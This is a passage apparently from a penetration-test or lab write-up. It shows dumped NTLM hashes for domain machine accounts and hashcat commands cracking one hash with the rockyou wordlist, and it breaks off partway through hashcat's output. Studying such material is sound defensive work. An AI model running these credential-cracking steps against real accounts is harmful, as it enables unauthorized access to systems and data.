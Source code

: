 ``` txt
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : aaef917074163b7c853c3f019f33bcd9

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

Let us start by cracking the SQLService: `hashcat -m 1000 f4ab68f27303bcb4024650d8fc5f973a /usr/share/wordlists/rockyou.txt`

hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

hashcat output

``` txt
fab1@kali:~$ hashcat -m 1000 f4ab68f27303bcb4024650d8fc5f973a /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) Platinum 8171M CPU @ 2.60GHz, 13896/13960 MB (4096 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache built:
```